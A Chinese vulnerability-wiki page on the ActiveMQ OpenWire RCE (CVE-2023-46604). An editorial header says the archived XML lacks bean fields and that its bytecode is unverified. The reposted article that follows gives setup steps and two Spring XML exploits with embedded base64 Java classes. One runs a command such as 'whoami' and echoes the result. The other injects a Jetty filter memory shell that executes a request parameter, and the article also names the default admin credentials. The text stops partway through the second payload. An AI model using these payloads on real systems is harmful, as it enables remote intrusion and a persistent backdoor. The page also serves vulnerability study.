# ActiveMQ OpenWire 历史利用链分析（CVE-2023-46604；XML 样例缺字段）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

本文保留 OpenWire 到 Spring XML 的历史链条说明和工具交互资料，作为待核分析收录。归档 XML 缺失 bean 的 id/class 等字段，内嵌字节码未独立审定，不能作为直接可运行的脚本；基础漏洞与后续 Jetty/JDK 内存组件链的条件须分开判断。

- 适用前提：OpenWire可达且Spring可加载远程XML；特定内存Filter链依Jetty/JDK及作者要求Web认证/可达，不能推广为基础RCE前提
- 证据范围：全文含两大base64类原文已读，未解码/反编译/运行；XML明显丢失bean id/class使变量未定义，不能称当前文本直接可复现

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 回显base64Str/cookie和内存ClassBase64Str未定义，前置bean缺id/class
- 反弹bean缺ProcessBuilder class，同84转码问题
- 主编号现已记录 CVE-2023-46604；正文四个小于号范围须按分支解释，否则会包含已修复版本
- 大量重复GIF、滑动提示/广告冗余；payload源码缺失、字节码行为未独立审定
- JDK11是此工具构建/反射链条件；配置Web外网不应作为通用必需操作

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Dv4ENwD5_dW5DnS79S5ITg)


  

_**零、介绍**_

ActiveMQ 是一个开源的消息代理和集成模式服务器，它支持 Java 消息服务 (JMS) API。它是 Apache Software Foundation 下的一个项目，用于实现消息中间件，帮助不同的应用程序或系统之间进行通信。

  

_**一、漏洞简述**_

Apache ActiveMQ 中存在远程代码执行漏洞，Apache ActiveMQ 在默认安装下开放了 61616 服务端口，而该端口并没有对传入数据进行适当的过滤，从而使攻击者能够构造恶意数据以实现远程代码执行。

**影响范围**


  

  

Apache ActiveMQ < 5.18.3  
Apache ActiveMQ < 5.17.6  
Apache ActiveMQ < 5.16.7  
Apache ActiveMQ < 5.15.16  

  

  

  

_**二、环境搭建**_

**1、java 环境 11**




**2、activemq5.17.5**


链接：  

```
https://activemq.apache.org/activemq-5017005-release

```

* 左右滑动查看更多  

```
tar -zxvf apache-activemq-5.17.5-bin.tar.gz   # 解压activemq
cd /root/apache-activemq-5.17.5/bin 
./activemq start   # 启动activemq

```

* 左右滑动查看更多



  

_**三、漏洞复现**_

参考：

```
github.com/Hutt0n0/ActiveMqRCE

```

**1、回显 exp**


```
hx.html
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:spring="http://camel.apache.org/schema/spring"
  xmlns:context="http://www.springframework.org/schema/context"
  xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://camel.apache.org/schema/spring http://camel.apache.org/schema/spring/camel-spring.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd">
  <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>
  <bean>
    <constructor-arg>
      <value>yv66vgAAADQAtgoAKgBhCABiCABjCgBkAGUKAA0AZggAZwoADQBoCABpCABqCABrCABsBwBtBwBuCgAMAG8KAAwAcAoAcQByBwBzCgARAGEKAHQAdQoAEQB2CgARAHcKAA0AeAcAeQoAFwB6CgB7AHwIAH0KAH4AfwgARAoAfgCACgCBAIIKAIEAgwcAhAgAhQgASgcAhgoAIwCHCACICgANAIkKAIoAiwoAigCMBwCNBwCOAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MQ01EUmVzcG9uc2U7AQAEdGVzdAEAFShMamF2YS9sYW5nL1N0cmluZzspVgEADnByb2Nlc3NCdWlsZGVyAQAaTGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcjsBAAVzdGFydAEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAFWJ5dGVBcnJheU91dHB1dFN0cmVhbQEAH0xqYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbTsBAARyZWFkAQABSQEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBAAZ0aHJlYWQBABJMamF2YS9sYW5nL1RocmVhZDsBAAZhQ2xhc3MBABFMamF2YS9sYW5nL0NsYXNzOwEABnRhcmdldAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAAl0cmFuc3BvcnQBADBMb3JnL2FwYWNoZS9hY3RpdmVtcS90cmFuc3BvcnQvdGNwL1RjcFRyYW5zcG9ydDsBAAdhQ2xhc3MxAQALc29ja2V0ZmllbGQBAAZzb2NrZXQBABFMamF2YS9uZXQvU29ja2V0OwEADG91dHB1dFN0cmVhbQEAFkxqYXZhL2lvL091dHB1dFN0cmVhbTsBAANjbWQBABJMamF2YS9sYW5nL1N0cmluZzsBAAZyZXN1bHQBAAdwcm9jZXNzAQADYXJnAQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQANU3RhY2tNYXBUYWJsZQcAbgcAjQcAbQcAjwcAkAcAcwcAeQEACkV4Y2VwdGlvbnMHAJEBAApTb3VyY2VGaWxlAQAQQ01EUmVzcG9uc2UuamF2YQwAKwAsAQAAAQAHb3MubmFtZQcAkgwAkwCUDACVAJYBAAd3aW5kb3dzDACXAJgBAAdjbWQuZXhlAQACL2MBAAcvYmluL3NoAQACLWMBABhqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXIBABBqYXZhL2xhbmcvU3RyaW5nDAArAJkMADYAmgcAjwwAmwCcAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAJAMADwAnQwAngCfDACgAKEMACsAogEAE2phdmEvbGFuZy9FeGNlcHRpb24MAKMAlgcApAwApQCmAQAQamF2YS5sYW5nLlRocmVhZAcApwwAqACpDACqAKsHAKwMAK0ArgwArwCwAQAub3JnL2FwYWNoZS9hY3RpdmVtcS90cmFuc3BvcnQvdGNwL1RjcFRyYW5zcG9ydAEALm9yZy5hcGFjaGUuYWN0aXZlbXEudHJhbnNwb3J0LnRjcC5UY3BUcmFuc3BvcnQBAA9qYXZhL25ldC9Tb2NrZXQMALEAsgEAAQoMALMAoQcAtAwAngCiDAC1ACwBAAtDTURSZXNwb25zZQEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAt0b0xvd2VyQ2FzZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAHaW5kZXhPZgEAFShMamF2YS9sYW5nL1N0cmluZzspSQEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQADKClJAQAFd3JpdGUBAAQoSSlWAQALdG9CeXRlQXJyYXkBAAQoKVtCAQAFKFtCKVYBAApnZXRNZXNzYWdlAQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwEAD2phdmEvbGFuZy9DbGFzcwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQANc2V0QWNjZXNzaWJsZQEABChaKVYBAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAD2dldE91dHB1dFN0cmVhbQEAGCgpTGphdmEvaW8vT3V0cHV0U3RyZWFtOwEACGdldEJ5dGVzAQAUamF2YS9pby9PdXRwdXRTdHJlYW0BAAVjbG9zZQAhACkAKgAAAAAAAgABACsALAABAC0AAAAvAAEAAQAAAAUqtwABsQAAAAIALgAAAAYAAQAAAAcALwAAAAwAAQAAAAUAMAAxAAAAAQAyADMAAgAtAAAC5wAGAA0AAAD7EgJNEgJOEgI6BBIDuAAEtgAFEga2AAebAA0SCE4SCToEpwAKEgpOEgs6BLsADFkGvQANWQMtU1kEGQRTWQUrU7cADjoFGQW2AA86BhkGtgAQOge7ABFZtwASOggDNgkZB7YAE1k2CQKfAA0ZCBUJtgAUp//tuwANWRkItgAVtwAWTacACzoFGQW2ABhNuAAZOgUSGrgAGzoGGQYSHLYAHToHGQcEtgAeGQcZBbYAH8AAIDoIEiG4ABs6CRkJEiK2AB06ChkKBLYAHhkKGQi2AB/AACM6CxkLtgAkOgwZDBIltgAmtgAnGQwstgAmtgAnGQy2ACinAAU6BbEAAgArAIIAhQAXAI0A9QD4ABcABAAuAAAAjgAjAAAACwADAAwABgANAAoADgAaAA8AHQAQACQAEgAnABMAKwAWAEUAFwBMABgAUwAZAFwAGgBfABsAawAcAHUAHgCCACEAhQAfAIcAIACNACQAkgAlAJkAJgCiACcAqAAoALQAKQC7ACoAxAArAMoALADWAC0A3QAuAOcALwDwADAA9QAzAPgAMQD6ADgALwAAAMAAEwBFAD0ANAA1AAUATAA2ADYANwAGAFMALwA4ADkABwBcACYAOgA7AAgAXwAjADwAPQAJAIcABgA+AD8ABQCSAGMAQABBAAUAmQBcAEIAQwAGAKIAUwBEAEUABwC0AEEARgBHAAgAuwA6AEgAQwAJAMQAMQBJAEUACgDWAB8ASgBLAAsA3QAYAEwATQAMAAAA+wAwADEAAAAAAPsATgBPAAEAAwD4AFAATwACAAYA9QBRAE8AAwAKAPEAUgBPAAQAUwAAABYAAgCZAFwAQgBUAAYAuwA6AEgAVAAJAFUAAABUAAj+ACQHAFYHAFYHAFYG/wAzAAoHAFcHAFYHAFYHAFYHAFYHAFgHAFkHAFoHAFsBAAAV/wAPAAUHAFcHAFYHAFYHAFYHAFYAAQcAXAf3AGoHAFwBAF0AAAAEAAEAXgABAF8AAAACAGA=</value>
        </constructor-arg>
    </bean>
    <bean>
        <constructor-arg value="whoami"></constructor-arg>
    </bean>
    <bean  class="#{T(org.springframework.cglib.core.ReflectUtils).defineClass('CMDResponse',T(org.springframework.util.Base64Utils).decodeFromString(base64Str.toString()),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance().test(cookie.toString())}">
    </bean>
</beans>

```

* 左右滑动查看更多



**2、内存马 exp**


**前提：注马前需登录**

1、ActiveMq 默认是只允许 127.0.0.1 访问 8161 端口，管理员如更改 / conf/jetty.xml 才可利用。

<table><tbody><tr><td width="557" valign="top"><p></p></td></tr></tbody></table>

2、默认密码：admin:admin、user:user 未修改，利用回显读取密码。

默认密码配置文件：

```
/conf/jetty-realm.properties

```

```
memshellnject.xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:spring="http://camel.apache.org/schema/spring"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://camel.apache.org/schema/spring http://camel.apache.org/schema/spring/camel-spring.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd">
    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>
    <bean>
        <constructor-arg value="yv66vgAAADQBuQoAVADvBwDwCwDxAPIIAPMKAPQA9QgA9gsAAgD3CAD4CgD5APoKAA0A+wgA/AoADQD9BwD+CAD/CAEACAEBCAECCgEDAQQKAQMBBQoBBgEHBwEICgAVAQkIAQoKABUBCwoAFQEMCgAVAQ0IAQ4KAPQBDwsBEAERCgBUARIKAFIBEwcBFAoAUgEVBwEWCgBIARcKAEgBGAoBGQEaCAEbCgBSARwIALkHAR0IAR4IAL4HAR8KACwBIAgBIQoADQEiCgEjASQKASMBJQgA4gcBJggA5QcA5goBGQEnCAEoCAEpCgEZASoKAFkBKwgBLAgBLQcAzwgBLgkAWQEvCgANATAHATEKAEEA7wgBMgoAQQEzCAE0CgBBATUKAFkBNgcBNwgA0goAUgE4CAE5CgE6ATsIATwKAEgBPQcBPgoASAE/CAFABwFBCgBSAUIHAUMKAUQBRQcBRggBRwoBSAFJBwFKCgBZAO8IANYKAFIBSwoBRAEXCADXBwFMCAFNCAFOCgBSAU8KAVABFwoBUAFRCADbCADcCQBZAVIIAN4IAVMHAVQJAVUBVgoAagFXCAFYCAFZCAFaCgAiAVsIAVwIAV0BAApmaWx0ZXJOYW1lAQASTGphdmEvbGFuZy9TdHJpbmc7AQADdXJsAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABFMTWVtc2hlbGxJbmplY3QxOwEABGluaXQBAB8oTGphdmF4L3NlcnZsZXQvRmlsdGVyQ29uZmlnOylWAQAMZmlsdGVyQ29uZmlnAQAcTGphdmF4L3NlcnZsZXQvRmlsdGVyQ29uZmlnOwEACkV4Y2VwdGlvbnMHAV4BAAhkb0ZpbHRlcgEAWyhMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7TGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47KVYBAAdpc0xpbnV4AQABWgEABW9zVHlwAQAEY21kcwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAJpbgEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAAXMBABNMamF2YS91dGlsL1NjYW5uZXI7AQAGb3V0cHV0AQAOc2VydmxldFJlcXVlc3QBAB5MamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDsBAA9zZXJ2bGV0UmVzcG9uc2UBAB9MamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7AQALZmlsdGVyQ2hhaW4BABtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjsBAANyZXEBACdMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDsBAA1TdGFja01hcFRhYmxlBwDwBwD+BwCJBwFfBwEIBwFKBwFgBwFhBwFiBwFjAQAHZGVzdHJveQEADUNsYXNzR2V0RmllbGQBADgoTGphdmEvbGFuZy9TdHJpbmc7TGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAAWYBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQACZTEBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBAAFlAQAgTGphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbjsBAAlmaWVsZE5hbWUBAAFvAQASTGphdmEvbGFuZy9PYmplY3Q7BwEUBwFDBwEWBwE3BwFkAQALcmV0dXJuU3RhdGUBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAAZ0aHJlYWQBABJMamF2YS9sYW5nL1RocmVhZDsBAAZhQ2xhc3MBABFMamF2YS9sYW5nL0NsYXNzOwEABnRhcmdldAEACXRyYW5zcG9ydAEAMExvcmcvYXBhY2hlL2FjdGl2ZW1xL3RyYW5zcG9ydC90Y3AvVGNwVHJhbnNwb3J0OwEAB2FDbGFzczEBAAtzb2NrZXRmaWVsZAEABnNvY2tldAEAEUxqYXZhL25ldC9Tb2NrZXQ7AQAMb3V0cHV0U3RyZWFtAQAWTGphdmEvaW8vT3V0cHV0U3RyZWFtOwEABnJlc3VsdAEAFkxvY2FsVmFyaWFibGVUeXBlVGFibGUBABRMamF2YS9sYW5nL0NsYXNzPCo+OwEABXRlc3QxAQAEbmFtZQEABWZpZWxkAQAGbWV0aG9kAQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBACJMamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb247AQANQ29udGV4dE9iamVjdAEAFHNlcnZsZXRIYW5kbGVyT2JqZWN0AQAEZmxhZwEAB2ZpbHRlcnMBABNbTGphdmEvbGFuZy9PYmplY3Q7AQALc291cmNlQ2xhenoBAAZob2xkZXIBAAltb2RpZmllcnMBAAtjbGFzc0xvYWRlcgEAF0xqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAPbWVtc2hlbGxJbmplY3QxAQAHc2V0TmFtZQEACXNldEZpbHRlcgEAC2NvbnN0cnVjdG9yAQAfTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwEADWZpbHRlck1hcHBpbmcBAA1zZXRGaWx0ZXJOYW1lAQAPc2V0RmlsdGVySG9sZGVyAQAJcGF0aFNwZWNzAQALc2V0UGF0aFNwZWMBAApyb290VGhyZWFkAQAPcm9vdFRocmVhZENsYXNzAQAKZ3JvdXBGaWVsZAEABWdyb3VwAQAXTGphdmEvbGFuZy9UaHJlYWRHcm91cDsBABF0aHJlYWRzQXJyYXlGaWVsZAEAB3RocmVhZHMBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwFlBwFBBwEmBwFmBwFGAQAIPGNsaW5pdD4BAApTb3VyY2VGaWxlAQAUTWVtc2hlbGxJbmplY3QxLmphdmEMAHYAdwEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QHAWEMAWcBaAEABHRlc3QHAWkMAWoAtAEAA2NtZAwBawFsAQAHb3MubmFtZQcBbQwBbgFsDAFvAXABAAN3aW4MAXEBcgEAEGphdmEvbGFuZy9TdHJpbmcBAAJzaAEAAi1jAQAHY21kLmV4ZQEAAi9jBwFzDAF0AXUMAXYBdwcBeAwBeQF6AQARamF2YS91dGlsL1NjYW5uZXIMAHYBewEAAlxhDAF8AX0MAX4BfwwBgAFwAQAADAGBAHcHAWIMAIMBggwBgwGEDAGFAYYBAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24MAYcBhAEAE2phdmEvbGFuZy9FeGNlcHRpb24MAYgBiQwBigGLBwFlDAGMAY0BABBqYXZhLmxhbmcuVGhyZWFkDAGOAY8BAC5vcmcvYXBhY2hlL2FjdGl2ZW1xL3RyYW5zcG9ydC90Y3AvVGNwVHJhbnNwb3J0AQAub3JnLmFwYWNoZS5hY3RpdmVtcS50cmFuc3BvcnQudGNwLlRjcFRyYW5zcG9ydAEAD2phdmEvbmV0L1NvY2tldAwBkAGRAQABCgwBkgGTBwGUDAFqAZUMAZYAdwEAFWphdmEvbGFuZy9UaHJlYWRHcm91cAwBlwFwAQARU2Vzc2lvbi1TY2hlZHVsZXIBAAhfY29udGV4dAwBmAGZDACjAKQBAA9fc2VydmxldEhhbmRsZXIBAAhfZmlsdGVycwEABV9uYW1lDABzAHQMAZoBmwEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyAQALWy1dIEZpbHRlciAMAZwBnQEACCBleGlzdHMuDAGeAXAMALMAtAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkDAGfAZkBACBvcmcuZWNsaXBzZS5qZXR0eS5zZXJ2bGV0LlNvdXJjZQcBZgwBoAGPAQAJSkFWQVhfQVBJDAGhAaIBABpqYXZhL2xhbmcvcmVmbGVjdC9Nb2RpZmllcgwBowGkAQAPbmV3RmlsdGVySG9sZGVyAQAPamF2YS9sYW5nL0NsYXNzDAGlAaYBABBqYXZhL2xhbmcvT2JqZWN0BwGnDAGoAakBACBqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbgEAK29yZy5lY2xpcHNlLmpldHR5LnNlcnZsZXQuQmFzZUhvbGRlciRTb3VyY2UHAaoMAasBrAEAD01lbXNoZWxsSW5qZWN0MQwBrQGmAQAUamF2YXgvc2VydmxldC9GaWx0ZXIBAAlhZGRGaWx0ZXIBACdvcmcuZWNsaXBzZS5qZXR0eS5zZXJ2bGV0LkZpbHRlck1hcHBpbmcMAa4BrwcBsAwBsQGyDAB1AHQBABJzZXREaXNwYXRjaGVyVHlwZXMBABFqYXZhL3V0aWwvRW51bVNldAcBswwBtAG1DAG2AbcBABRwcmVwZW5kRmlsdGVyTWFwcGluZwEAIFsqXW1lbXNoZWxsIEluamVjdCBzdWNjZXNzZnVsbHkhAQAeWy1dTWVtc2hlbGwgSW5qZWN0IEZhaWxlZC4uLiA6DAG4AXABAAhIM0ZpbHRlcgEABS9hYWFhAQAeamF2YXgvc2VydmxldC9TZXJ2bGV0RXhjZXB0aW9uAQATamF2YS9pby9JbnB1dFN0cmVhbQEAHGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3QBAB1qYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZQEAGWphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW4BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24BABBqYXZhL2xhbmcvVGhyZWFkAQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyAQAJZ2V0V3JpdGVyAQAXKClMamF2YS9pby9QcmludFdyaXRlcjsBABNqYXZhL2lvL1ByaW50V3JpdGVyAQAFd3JpdGUBAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAHaGFzTmV4dAEAAygpWgEABG5leHQBAAVmbHVzaAEAQChMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7KVYBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQANZ2V0U3VwZXJjbGFzcwEADXNldEFjY2Vzc2libGUBAAQoWilWAQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsBAAdmb3JOYW1lAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwEAD2dldE91dHB1dFN0cmVhbQEAGCgpTGphdmEvaW8vT3V0cHV0U3RyZWFtOwEACGdldEJ5dGVzAQAEKClbQgEAFGphdmEvaW8vT3V0cHV0U3RyZWFtAQAFKFtCKVYBAAVjbG9zZQEAB2dldE5hbWUBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAGZXF1YWxzAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaAQAGYXBwZW5kAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7AQAIdG9TdHJpbmcBAA5nZXRDbGFzc0xvYWRlcgEACWxvYWRDbGFzcwEADGdldE1vZGlmaWVycwEAAygpSQEABnNldEludAEAFihMamF2YS9sYW5nL09iamVjdDtJKVYBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAOamF2YS9sYW5nL0VudW0BAAd2YWx1ZU9mAQA1KExqYXZhL2xhbmcvQ2xhc3M7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvRW51bTsBABFnZXREZWNsYXJlZE1ldGhvZAEAFmdldERlY2xhcmVkQ29uc3RydWN0b3IBADMoW0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsBAB1qYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcgEAC25ld0luc3RhbmNlAQAnKFtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAcamF2YXgvc2VydmxldC9EaXNwYXRjaGVyVHlwZQEAB1JFUVVFU1QBAB5MamF2YXgvc2VydmxldC9EaXNwYXRjaGVyVHlwZTsBAAJvZgEAJShMamF2YS9sYW5nL0VudW07KUxqYXZhL3V0aWwvRW51bVNldDsBAApnZXRNZXNzYWdlACEAWQBUAAEAXwACAAoAcwB0AAAACgB1AHQAAAAIAAEAdgB3AAEAeAAAAC8AAQABAAAABSq3AAGxAAAAAgB5AAAABgABAAAACwB6AAAADAABAAAABQB7AHwAAAABAH0AfgACAHgAAAA1AAAAAgAAAAGxAAAAAgB5AAAABgABAAAAEgB6AAAAFgACAAAAAQB7AHwAAAAAAAEAfwCAAAEAgQAAAAQAAQCCAAEAgwCEAAIAeAAAAdMABQALAAAAyyvAAAI6BCy5AAMBABIEtgAFGQQSBrkABwIAxgCoBDYFEgi4AAk6BhkGxgATGQa2AAoSC7YADJkABgM2BRUFmQAgBr0ADVkDEg5TWQQSD1NZBRkEEga5AAcCAFOnAB0GvQANWQMSEFNZBBIRU1kFGQQSBrkABwIAUzoHuAASGQe2ABO2ABQ6CLsAFVkZCLcAFhIXtgAYOgkZCbYAGZkACxkJtgAapwAFEhs6Ciy5AAMBABkKtgAFLLkAAwEAtgAcpwALLSssuQAdAwCxAAAAAwB5AAAAQgAQAAAAFgAGABcAEQAYAB0AGQAgABoAJwAbADkAHAA8AB4AegAfAIcAIACXACEAqwAiALYAIwC/ACUAwgAmAMoAKAB6AAAAcAALACAAnwCFAIYABQAnAJgAhwB0AAYAegBFAIgAiQAHAIcAOACKAIsACACXACgAjACNAAkAqwAUAI4AdAAKAAAAywB7AHwAAAAAAMsAjwCQAAEAAADLAJEAkgACAAAAywCTAJQAAwAGAMUAlQCWAAQAlwAAADgAB/4APAcAmAEHAJkhWQcAmv4ALgcAmgcAmwcAnEEHAJn/ABgABQcAnQcAngcAnwcAoAcAmAAABwCBAAAABgACAKEAggABAKIAdwABAHgAAAArAAAAAQAAAAGxAAAAAgB5AAAABgABAAAALQB6AAAADAABAAAAAQB7AHwAAAABAKMApAACAHgAAAEPAAIABgAAADkstgAeK7YAH06nACU6BCy2AB62ACErtgAfTqcAFDoFLLYAHrYAIbYAISu2AB9OLQS2ACMtLLYAJLAAAgAAAAkADAAgAA4AGgAdACIAAwB5AAAAJgAJAAAAMgAJADkADAAzAA4ANQAaADgAHQA2AB8ANwAuADoAMwA7AHoAAABSAAg